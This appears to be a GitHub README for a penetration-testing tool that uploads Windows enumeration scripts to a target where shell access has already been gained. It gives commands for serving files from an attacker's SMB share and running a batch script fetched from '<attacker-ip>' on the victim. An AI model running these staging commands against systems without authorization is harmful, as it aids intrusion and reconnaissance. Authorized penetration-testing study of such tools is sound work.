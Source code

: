 # getenum
Windows - upload enumeration tools to target <br>
NOTE: tools are current a/o 26 April 2022

<br><hr>

## USAGE

USE OF THIS TOOL ASSUMES SHELL ACCESS ON A TARGET WINDOWS MACHINE
<br>

```
# ON KALI
impacket-smbserver -smb2support share ../getenum

# ON TARGET WINDOWS SHELL
mkdir c:\tmp
cd c:;\tmp

copy \\<attacker-ip>\share\getenum.bat

.\getenum.bat attacker-ip
```

<br><hr>

## HAPPENINGS

THE BATCH SCRIPT WILL CREATE C:\tmp\Enum <br>
... WILL USE SMB TO COPY FILES TO WINDOWS <br>
... USE README.txt (in Enum) TO SEE COMMANDS <br>

## DISCLAIMER

All tools included in this repo are intended for learning purposes only and are to only be used on target systems with permission of the system owner.